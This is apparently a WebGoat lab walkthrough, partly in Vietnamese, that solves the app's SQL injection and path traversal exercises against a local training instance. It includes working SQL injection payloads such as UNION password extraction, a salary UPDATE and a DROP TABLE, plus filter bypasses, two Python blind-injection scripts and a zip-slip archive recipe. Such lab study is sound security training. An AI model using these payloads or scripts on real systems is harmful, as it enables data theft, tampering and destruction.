



# (A1) Injection
<a name="Injection"></a>

## SQL Injection (intro)

### 2. What is SQL?

```sql
SELECT department FROM employees WHERE first_name='Bob'
```

### 3. Data Manipulation Language (DML)

```sql
UPDATE employees SET department='Sales' WHERE first_name='Tobi'
```

### 4. Data Definition Language (DDL)

```sql
ALTER TABLE employees ADD phone varchar(20)
```

### 5. Data Control Language (DCL)

```sql
GRANT ALL ON grant_rights TO unauthorized_user
```

### 9. Try It! String SQL injection

```sql
'
OR
'1'='1
```

### 10. Try It! Numeric SQL injection

Login_Count: 

```
0
```  

User_Id: 

```sql
0 OR 1=1
```

### 11. Compromising confidentiality with String SQL injection

Employee Name: 

```
a
```

Authentication TAN: 

```sql
' OR '1'='1
```

### 12. Compromising Integrity with Query chaining

Employee Name: 

```
Smith
```

Authentication TAN: 

```sql
3SL99A'; UPDATE employees SET salary=999999 WHERE userid=37648-- -
```

### 13. Compromising Availability

Action contains: 

```sql
a'; DROP TABLE access_log-- -
```

## SQL Injection (advanced)

### 3. Try It! Pulling data from other tables

Name: 

```sql
' OR 1=1 UNION SELECT NULL,user_name,password,NULL,cookie,NULL,NULL FROM user_system_data-- -
```

Password: 

```
passW0rD
```

### 5.

```python
import requests
from binascii import unhexlify

sess = requests.Session()
URL = 'http://127.0.0.1:8080/WebGoat/SqlInjectionAdvanced/challenge'
COOKIE = {'JSESSIONID': 'rmQpe-rhd9Wt6wbgTSjMMipbN5sdQrh4PySCi7hn'}
CHARSET = '0123456789abcdef'

key = ''

found = False
while not found:
    found = True
    for c in CHARSET:
        print(c)
        payload = {
            'username_reg': f"tom' and substr(hex(password),{len(key) + 1},1)='{c}",
            'email_reg': 'a@gmail.com',
            'password_reg': 'a',
            'confirm_password_reg': 'a'
        }
        response = sess.put(URL, data=payload, cookies=COOKIE)
        if 'exists' in response.text:
            key += c
            print('hex:', key)
            found = False

print('found:', unhexlify(key))

#thisisasecretfortomonly
```

## SQL Injection (mitigation)

### 5. Try it! Writing safe code

```java
Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);
PreparedStatement = conn.prepareStatement("SELECT status FROM users WHERE name=? AND mail=?");
setString name;
setString mail;
```

### 6. Try it! Writing safe code

```java
try {  
	Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);  
	PreparedStatement ps = conn.prepareStatement("SELECT * FROM users WHERE name = ?");  
	ps.setString(1, "meo");  
	ps.executeUpdate();  
} catch (Exception e) {  
	System.out.println("Oops. Something went wrong!");  
}
```

### 9. Input validation alone is not enough!!

Bị filter space nên thay space bằng `/**/`.

```sql
'/**/OR/**/1=1/**/UNION/**/SELECT/**/NULL,user_name,password,NULL,cookie,NULL,NULL/**/FROM/**/user_system_data--/**/
```

### 10. Input validation alone is not enough!!

Sử dụng query bài 9, ở đây bị replace `SELECT` và `FROM` nên mình chèn thêm vào giữa 1 lần nữa.

```sql
'/**/OR/**/1=1/**/UNION/**/SSELECTELECT/**/NULL,user_name,password,NULL,cookie,NULL,NULL/**/FFROMROM/**/user_system_data--/**/
```

### 12

Để ý mỗi khi bấm sắp xếp ở mỗi cột thì sẽ có request được gửi đi:




Câu lệnh query `ORDER BY` thông thường sẽ có dạng:

```sql
SELECT * FROM users ORDER BY lastname
```

Còn injection sẽ có dạng:

```sql
SELECT * FROM users ORDER BY (CASE WHEN (<condition>) THEN lastname ELSE firstname)
```

Từ đó mình có thể inject vào param `column`. Code blind sqli:

```python
import requests
from string import digits

url = 'http://127.0.0.1:8080/WebGoat/SqlInjectionMitigations/servers'
cookies = { 'JSESSIONID': 'Sx0ipQQY0EnedQ7Q8UEHI8jYhXcEFH7B04ILcUUZ' }

charset = digits + '.'
key = ''

found = False
while not found:
    found = True
    for c in charset:
        print(c)
        payload = {
            'column': f"(CASE WHEN (SELECT SUBSTR(ip,{len(key) + 1},1) FROM servers WHERE hostname='webgoat-prd')='{c}' THEN id ELSE ip END)"
        }
        r = requests.get(url, params=payload, cookies=cookies)
        if r.json()[0]['id'] == '1':
            key += c
            found = False
            print('found:', key)
            break

print('found:', key)
```

ip:

```
104.130.219.202
```

## Path traversal

### 2. Path traversal while uploading files 

Thêm `../` vào trước file name trong request:

```
Content-Disposition: form-data; name="fullName"

../test
```

### 3. Path traversal while uploading files

Bài này `../` bị filter nên chèn thêm 1 lần nữa vào chính giữa:

```
Content-Disposition: form-data; name="fullNameFix"

..././test
```

### 4. Path traversal while uploading files

Sửa lại trường `filename` ở header:

```
Content-Disposition: form-data; name="uploadedFileRemoveUserInput"; filename="../bruh.txt"
```

### 5. Retrieving other files with a path traversal

Khi bắt request mình nhận được header có kèm filename:

```
Location: /PathTraversal/random-picture?id=4.jpg
```



Inject vào param id, để ý rằng server tự động thêm `.jpg` vào sau tên nên mình không cần điền vào nữa:



Sau đó gửi SHA-512 của username lên là xong.

### 7

Tạo cây thư mục như sau và nén vào file `.zip`:

```console
mkdir -p /home/woanmeo11/.webgoat-8.2.2/PathTraversal/woanmeo11
cd /home/woanmeo11/.webgoat-8.2.2/PathTraversal/woanmeo11
curl -o woanmeo11 http://localhost:8080/WebGoat/images/cats/1.jpg
zip profile.zip ../../../../../../../../home/woanmeo11/.webgoat-8.2.2/PathTraversal/woanmeo11/woanmeo11.jpg
```

Nộp file `.zip` này lên là xong. Ở đây file `.zip` sẽ giữ nguyên cây thư mục như trên, bao gồm cả `../` nên khi unzip ra ở phía server dính lỗi sẽ bị path traversal.